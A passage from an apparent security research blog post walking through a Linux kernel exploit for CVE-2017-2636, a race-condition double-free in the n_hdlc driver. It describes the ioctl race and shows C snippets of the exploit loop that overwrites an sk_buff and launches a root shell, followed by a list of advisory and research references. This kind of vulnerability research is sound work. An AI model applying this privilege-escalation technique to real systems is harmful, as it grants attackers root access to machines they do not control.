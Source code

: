 Here we suspend the pseudoterminal output (see `man tty_ioctl`) and write one data buffer. The `n_hdlc_send_frames()` fails to send this buffer and saves its address in `n_hdlc.tbuf`.

We are ready for the race. Start two threads, which are allowed to run on all available CPU cores:
 - thread 1: flush the data with `ioctl(ptmd, TCFLSH, TCIOFLUSH)`;
 - thread 2: start the suspended output with `ioctl(ptmd, TCXONC, TCOON)`.

In a lucky case, they both put the only written buffer pointed by `n_hdlc.tbuf` to `tx_free_buf_list`.

Now we return to the CPU 0 and trigger possible double-free error:

{% highlight c %}
	ret = sched_setaffinity(0, sizeof(single_cpu), &single_cpu);
	if (ret != 0) {
		perror("[-] sched_setaffinity");
		goto end;
	}

	ret = close(ptmd);
	if (ret != 0) {
		perror("[-] close /dev/ptmx");
		goto end;
	}
{% endhighlight %}

We close the pseudoterminal master. The `n_hdlc_release()` goes through `n_hdlc_buf_list` items and frees the kernel memory used for data buffers. Here the possible double-free error happens.

This particular bug is successfully detected by the Kernel Address Sanitizer ([KASAN][19]), which reports the use-after-free happening just before the second `kfree()`.

The final part of the main loop:

{% highlight c %}
	ret = exploit_skb(socks, sockaddrs, payload, loop % SOCK_PAIRS);
	if (ret != EXIT_SUCCESS)
		goto end;

	if (getuid() == 0 && geteuid() == 0) {
		printf("[+] race #%ld: WIN! flush(%ld), TCOON(%ld)\n",
						loop, tmo1, tmo2);
		break; /* :) */
	}

	loop++;
}

printf("[+] finish as: uid=0, euid=0, start sh...\n");
run_sh();
{% endhighlight %}

Here we try to exploit the double-free error by overwriting `struct sk_buff`. In case of success, we exit from the main loop and run the root shell in the child process using `execve()`.

# Exploiting the sk_buff


[1]: https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2017-2636
[2]: https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2017-2636
[3]: https://bugzilla.redhat.com/show_bug.cgi?id=1430049
[4]: https://bugzilla.novell.com/show_bug.cgi?id=CVE-2017-2636
[5]: https://security-tracker.debian.org/tracker/CVE-2017-2636
[6]: https://people.canonical.com/~ubuntu-security/cve/2017/CVE-2017-2636.html
[7]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=82f2341c94d270421f383641b7cd670e474db56b
[8]: http://seclists.org/oss-sec/2017/q1/569
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=be10eb7589337e5defbe214dae038a53dd21add8
[10]: https://gruss.cc/files/prefetch.pdf
[11]: https://github.com/xairy/kernel-exploits/tree/master/prefetch-side-channel
[11.1]: https://youtu.be/nDCvRxWxN0Y
[12]: http://lxr.free-electrons.com/ident?i=flush_tx_queue
[13]: http://lxr.free-electrons.com/ident?i=n_hdlc_send_frames
[14]: http://lxr.free-electrons.com/ident?i=n_hdlc_release
[15]: https://github.com/google/syzkaller
[16]: https://github.com/google/syzkaller/wiki/Found-Bugs
[17]: http://lxr.free-electrons.com/source/Documentation/serial/tty.txt
[18]: https://unix.stackexchange.com/questions/117981/what-are-the-responsibilities-of-each-pseudo-terminal-pty-component-software
[19]: https://lwn.net/Articles/612153/
[20]: https://xairy.github.io/blog/2016/cve-2016-2384
[21]: http://vger.kernel.org/~davem/skb_data.html
[22]: https://speakerdeck.com/retme7/talk-is-cheap-show-me-the-code
[23]: http://keenlab.tencent.com/en/
[24]: http://lxr.free-electrons.com/source/include/linux/skbuff.h
[25]: http://lxr.free-electrons.com/ident?i=skb_release_data
[26]: http://vulnfactory.org/blog/2011/06/05/smep-what-is-it-and-how-to-beat-it-on-linux/
[27]: https://www.syscan360.org/slides/2016_SG_Vitaly_Nikolenko_Practical_SMEP_Bypass_Techniques.pdf
[28]: http://lxr.free-electrons.com/source/arch/x86/include/asm/special_insns.h
[29]: https://www.ptsecurity.com/ww-en/
